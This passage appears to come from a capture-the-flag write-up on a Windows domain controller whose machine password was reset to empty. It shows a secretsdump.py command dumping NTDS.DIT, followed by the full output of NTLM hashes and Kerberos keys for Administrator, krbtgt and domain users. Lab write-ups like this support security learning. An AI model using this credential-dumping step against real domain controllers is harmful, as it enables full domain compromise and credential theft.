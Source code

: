 The target was exploitable and the password was set to empty.

### Gaining the access
Using the `secretsdump.py` utility, dump the domain credentials.  

```bash
$ python3 secretsdump.py -just-dc -no-pass DC01\$@10.10.208.101
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3f3ef89114fb063e3d7fc23c20f65568:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:2179ebfa86eb0e3cbab2bd58f2c946f5:::
hololive.local\a-koronei:1104:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\a-fubukis:1106:aad3b435b51404eeaad3b435b51404ee:2c90bc6c1c35b71f455f3d08cf4947bd:::
hololive.local\matsurin:1107:aad3b435b51404eeaad3b435b51404ee:a4c59da4140ebd8c59410370c687ef51:::
hololive.local\fubukis:1108:aad3b435b51404eeaad3b435b51404ee:f78bb88e1168abfa165c558e97da9fd4:::
hololive.local\koronei:1109:aad3b435b51404eeaad3b435b51404ee:efc17383ce0d04ec905371372617f954:::
hololive.local\okayun:1110:aad3b435b51404eeaad3b435b51404ee:a170447f161e5c11441600f0a1b4d93f:::
hololive.local\watamet:1115:aad3b435b51404eeaad3b435b51404ee:50f91788ee209b13ca14e54af199a914:::
hololive.local\mikos:1116:aad3b435b51404eeaad3b435b51404ee:74520070d63d3e2d2bf58da95de0086c:::
DC01$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:3415e858d1caff75baeb02c4dd7154328ea6c87f07336a5c926014392a40ed49
Administrator:aes128-cts-hmac-sha1-96:535501623337ae03580527692f08f0e1
Administrator:des-cbc-md5:bf34685d383e6734
krbtgt:aes256-cts-hmac-sha1-96:9702af2b67c5497940d0f0a7237fbd53d18fb2923fadd37f4ba33d6d5dab4583
krbtgt:aes128-cts-hmac-sha1-96:81628713bd5608becc4325052eb9702d
krbtgt:des-cbc-md5:25f1cea1542f9e31
hololive.local\a-koronei:aes256-cts-hmac-sha1-96:8085b97e73f4dfa6e2cc52a885dd3b1339bf17c17e999a8863686bdf0d800763
hololive.local\a-koronei:aes128-cts-hmac-sha1-96:2f6fd0c9e56a00883ab21544791becab
hololive.local\a-koronei:des-cbc-md5:89df5b3b9b680ea1
hololive.local\a-fubukis:aes256-cts-hmac-sha1-96:7b675daa6cd54ae667a2726a5d99259638b29467fd8e4b3cd6ec4e9564a168dd
hololive.local\a-fubukis:aes128-cts-hmac-sha1-96:883e1d7b14b9024527bd7da69c80a350
hololive.local\a-fubukis:des-cbc-md5:94294304ec7637c1
hololive.local\matsurin:aes256-cts-hmac-sha1-96:cfde1ad860382daa706dd11d585ff1512eef873dc85ae9a88437dc7501fa8e04
hololive.local\matsurin:aes128-cts-hmac-sha1-96:08a011409d044e2f1aec7a6782cbd7b5
hololive.local\matsurin:des-cbc-md5:04fde39d61c215fe
hololive.local\fubukis:aes256-cts-hmac-sha1-96:ed8e594f0b6b89cfa8030bcf9f3e41a9668793a12f598e42893fe8c9f6c5b8eb
hololive.local\fubukis:aes128-cts-hmac-sha1-96:ee003acb55927bb733826aa9a9ddfb53
hololive.local\fubukis:des-cbc-md5:075b8ffde398fe80
hololive.local\koronei:aes256-cts-hmac-sha1-96:6df316ac8564b8254457d973ad61a71a1dfcc5ffe6218cb39f14bb0bbda4a287
hololive.local\koronei:aes128-cts-hmac-sha1-96:6afe7f4196657648505d2af9bbfaf8ba
hololive.local\koronei:des-cbc-md5:a737e6073d15aecd
hololive.local\okayun:aes256-cts-hmac-sha1-96:cf262ddfb3239a555f9d78f90b8c01cd51032d34d104d366b4a94749b47fe6c5
hololive.local\okayun:aes128-cts-hmac-sha1-96:53be14aa0da3f7b657e42c5ed1cef12a
hololive.local\okayun:des-cbc-md5:10896d3786b9628f
hololive.local\watamet:aes256-cts-hmac-sha1-96:45f99941cfc277515aff47a4dfc936e805f7fedd3d175524708c868e2c405ec9
hololive.local\watamet:aes128-cts-hmac-sha1-96:07a6307a5b58f33a61271516ac3364cc
hololive.local\watamet:des-cbc-md5:bf622564a840f192
hololive.local\mikos:aes256-cts-hmac-sha1-96:aab547ee10782fef9aea3b4be5392e7ca9605d0dca95f7510dca40b9628f4233
hololive.local\mikos:aes128-cts-hmac-sha1-96:5c56246d1fd7a4db5ff4fb65ba597e42
hololive.local\mikos:des-cbc-md5:6b2f7fa7a4ecd0c1
DC01$:aes256-cts-hmac-sha1-96:dbf8dbaaccbf17d6fb96cbb3c4046099a4a41d1453ff2d8a8970216ed15d9bf8
```